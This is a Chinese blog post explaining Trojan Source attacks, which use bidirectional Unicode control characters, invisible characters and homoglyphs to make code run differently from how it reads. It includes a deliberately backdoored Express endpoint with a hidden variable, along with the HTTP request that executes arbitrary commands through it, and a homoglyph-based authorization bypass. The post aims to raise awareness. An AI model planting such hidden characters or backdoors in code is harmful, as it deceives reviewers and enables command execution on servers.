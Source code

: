 # 源代码特洛伊木马攻击
>date: 2021-11-19T17:02:46+08:00


![](https://coolshell.cn/wp-content/uploads/2021/11/il_340x270_pggv.jpg)最近，我们在 Github 的 Code Review 中看到 Github 开始出现下面这个 Warning 信息—— “This file contains bidirectional Unicode text that may be interpreted or compiled differently than what appears below.”也就是说我们的代码中有一些 bidirectional unicode 的文本，中文直译作 “双向文本”，意思是一些语言是从左到右的，而另一些则是是从右到左的（如：阿拉伯语），如果同一个文件里，即有从左向右的文本也有从右向左文本两种的混搭，那么，就叫bi-direction。术语通常缩写为“ **BiDi** ”或“ **bidi** ”。使用双向文本对于中国人来说并不陌生，因为中文又可以从左到右，也可以从右到左，还可以从上到下。


![](https://coolshell.cn/wp-content/uploads/2021/11/1637305049427-1024x329.jpg)


早期的计算机仅设计为基于拉丁字母的从左到右的方式。添加新的字符集和字符编码使许多其他从左到右的脚本能够得到支持，但不容易支持从右到左的脚本，例如阿拉伯语或希伯来语，并且将两者混合使用更是不可能。从右到左的脚本是通过[ISO/IEC 8859-6](https://en.wikipedia.org/wiki/ISO/IEC_8859-6 "ISO/IEC 8859-6")和[ISO/IEC 8859-8](https://en.wikipedia.org/wiki/ISO/IEC_8859-8 "ISO/IEC 8859-8")等编码引入的，通常以书写和阅读顺序存储字母。可以简单地将从左到右的显示顺序翻转为从右到左的显示顺序，但这样做会牺牲正确显示从左到右脚本的能力。通过双向文本支持，可以在同一页面上混合来自不同脚本的字符，而不管书写方向如何。



双向文本支持是计算机系统正确显示双向文本的能力。对于Unicode来说，其标准为完整的 BiDi 支持提供了基础，其中包含有关如何编码和显示从左到右和从右到左脚本的混合的详细规则。你可以使用一些控制字符来帮助你完成双向文本的编排。


好的，科普完“双向文本”后，我们正式进入正题，为什么Github 会出这个警告？Github的官方博客“[关于双向Unicode的警告](https://github.blog/changelog/2021-10-31-warning-about-bidirectional-unicode-text/)”中说，使用一些Unicode中的用于控制的隐藏字符，可以让你代码有着跟看上去完全不一样的行为。


我们先来看一个示例，下面这段 Go 的代码就会把 “Hello, World”的每个字符转成整型，然后计算其中多少个为 1 的 bit。



```
package main

import "fmt"

func main() {
  str, mask := "Hello, World!‮10x‭", 0

  bits := 0
  for _, ch := range str {
    for ch > 0 {
      bits += int(ch) & mask
      ch = ch >> 1
    }
  }
  fmt.Println("Total bits set:", bits)
}
```

这个代码你看上去没有什么 奇怪的地方，但是你在执行的时候（可以直接上Go Playground上执行  –<https://play.golang.org/p/e2BDZvFlet0>），你会发现，结果是 0，也就是说“Hello, World”中没有值为 1 的 bit 位。这究竟发生了什么事？


如果你把上面这段代码拷贝粘贴到字符界面上的 vim 编辑器里，你就可以看到下面这一幕。


![](https://coolshell.cn/wp-content/uploads/2021/11/1637307319589.jpg)


其中有两个浅蓝色的尖括号的东西—— `<202e>` 和 `<202d>` 。这两个字符是两个Unicode的控制字符（注：完整的双向文本控制字符参看 [Unicode Bidirectional Classes](https://www.compart.com/en/unicode/bidiclass)）：


* **U+202E – Right-to-Left Override [RLO]**  

表示，开始从右到左显示，于是，接下来的文本 `10x", 0` 变成了 `0 ,"x01`
* **U+202D – Left-to-Right Override [LRO]**  

表示，开始从左到右显示，于是，`0,"x01` 中的前4个字符`0 ,"` 反转成  `", 0`，于是整个文本成了 `", 0x01`


所以，你在视觉上看到的是结果是—— `"Hello, World!”, 0x01`， 但是实际上是完全是另外一码事。


然后，Github官方博客中还给了一个安全问题 [CVE-2021-42574](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42574) ——



> 在 Unicode 规范到 14.0 的双向算法中发现了一个问题。它允许通过控制序列对字符进行视觉重新排序，可用于制作源代码，呈现与编译器和解释器执行逻辑完全不同的逻辑。攻击者可以利用这一点对接受 Unicode 的编译器的源代码进行编码，从而将目标漏洞引入人类审查者不可见的地方。
> 
> 


这个安全问题在剑桥大学的这篇论文“[Some Vulnerabilities are Invisible](https://www.trojansource.codes/)”中有详细的描述。其中PDF版的文章中也给了这么一个示例：


通过双向文本可以把下面这段代码：


![](https://coolshell.cn/wp-content/uploads/2021/11/1637308872541.jpg)


伪装成下面的这个样子：


![](https://coolshell.cn/wp-content/uploads/2021/11/1637308847435.jpg)


在图 2 中`'alice'`被定义为价值 100，然后是一个从 Alice 中减去资金的函数。最后一行以 50 的值调用该函数，因此该小程序在执行时应该给我们 50 的结果。


然而，图 1 向我们展示了如何使用双向字符来破坏程序的意图：通过插入**RLI (Right To Left Isolate)***–* **U+2067***，*我们将文本方向从传统英语更改为从右到左。尽管我们使用了减去资金功能，但图 1 的输出变为 100。


除此之外，支持Unicode还可以出现很多其它的攻击，尤其是通过一些“不可见字符”，或是通过“同形字符”在源代码里面埋坑。比如文章“[The Invisible Javascript Backdoor](https://certitude.consulting/blog/en/invisible-backdoor/)”里的这个示例：



```
const express = require('express');
const util = require('util');
const exec = util.promisify(require('child_process').exec);

const app = express();

app.get('/network_health', async (req, res) => {
    const { timeout,ㅤ} = req.query;
    const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',ㅤ
    ];

    try {
        await Promise.all(checkCommands.map(cmd => 
                cmd && exec(cmd, { timeout: +timeout || 5_000 })));
        res.status(200);
        res.send('ok');
    } catch(e) {
        res.status(500);
        res.send('failed');
    }
});

app.listen(8080);
```

上面这个代码实现了一个非常简单的网络健康检查，HTTP会执行 `ping -c 1 google.com` 以及 `curl -s http://example.com` 这两个命令来查看网络是否正常。其中，可选输入 HTTP 参数`timeout`限制命令执行时间。


然后，上面这个代码是有不可见的Unicode 字符，如果你使用VSCode，把编码从 Unicode 改成 DOS (CP437) 后你就可以看到这个Unicode了


![](https://coolshell.cn/wp-content/uploads/2021/11/1637310735683-1024x923.jpg)


于是，一个你看不见的 `πàñ` 变量就这样生成了，你再仔细看一下整个逻辑，这个看不见的变量，可以让你的代码执行他想要的命令。因为，http 的请求中有第二个参数，这个参数可奖在后面被执行。于是我们可以构造如下的的 HTTP 请求：


**http://host:port/network\_health?%E3%85%A4=<any command>**


其中的，%E3%85%A4 就是 `\u3164` 这个不可见Unicode 的编码，于是，一个后门代码就这样在神不知鬼不觉的情况下注入了。


另外，还可以使用“同形字符”，看看下面这个示例：



```
if(environmentǃ=ENV_PROD){
    // bypass authZ checks in DEV
    return true;
}
```

如何你以为 `ǃ` 是 惊叹号，其实不是，它是一个Unicode `╟â`。这种东西就算你把你的源码转成 DOS(CP437) 也没用，因为用肉眼在一大堆正常的字符中找不正常的，我觉得是基本不可能的事。


现在，是时候检查一下你的代码有没有上述的这些情况了……


（全文完）


 


 


